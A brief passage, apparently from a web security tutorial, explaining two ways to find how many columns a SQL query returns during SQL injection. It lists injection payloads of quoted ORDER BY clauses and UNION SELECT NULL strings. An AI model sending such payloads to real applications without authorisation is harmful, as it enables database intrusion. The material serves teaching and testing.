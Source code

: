 # Page 1



One method involves injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

